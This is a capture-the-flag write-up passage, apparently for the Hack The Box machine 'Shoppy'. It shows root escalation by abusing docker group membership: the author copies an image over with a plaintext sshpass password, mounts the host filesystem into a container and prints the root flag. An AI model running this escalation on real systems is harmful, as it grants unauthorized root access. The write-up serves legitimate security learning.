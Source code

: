 # Root Shell

After logging in as deploy, we can see that he is in "docker" group:

```sh
> groups
deploy docker
```

We can use that to create new container that will have entire host 
filesystem mounted under /mnt, easily granting us root access.

First, we run following on our attack machine:

```sh
> sudo docker pull alpine
Using default tag: latest
latest: Pulling from library/alpine
f56be85fc22e: Pull complete
Digest: sha256:124c7d2707904eea7431fffe91522a01e5a861a624ee31d03372cc1d138a3126
Status: Downloaded newer image for alpine:latest
docker.io/library/alpine:latest

> sudo docker images
REPOSITORY   TAG       IMAGE ID       CREATED       SIZE
alpine       latest    9ed4aefc74f6   5 weeks ago   7.04MB

> sudo docker save --output alpine.tar 9ed4aefc74f6

> sudo chmod 777 alpine.tar
> sshpass -p 'Deploying@pp!' scp ./alpine.tar deploy@shoppy.htb:/home/deploy/
> rm alpine.tar
```

Then, on target machine:

```sh
> docker load --input alpine.tar
f1417ff83b31: Loading layer  7.338MB/7.338MB
Loaded image ID: sha256:9ed4aefc74f6792b5a804d1d146fe4b4a2299147b0f50eaf2b08435d7b38c27e

> docker images
REPOSITORY   TAG       IMAGE ID       CREATED        SIZE
<none>       <none>    9ed4aefc74f6   5 weeks ago    7.05MB
alpine       latest    d7d3d98c851f   9 months ago   5.53MB

> docker run -v /:/mnt -it d7d3d98c851f
/ # cd /mnt/root
/mnt/root # ls
root.txt
/mnt/root # cat root.txt
36e0afbc6f03a7bd81e5880331de27b9
/mnt/root #
```
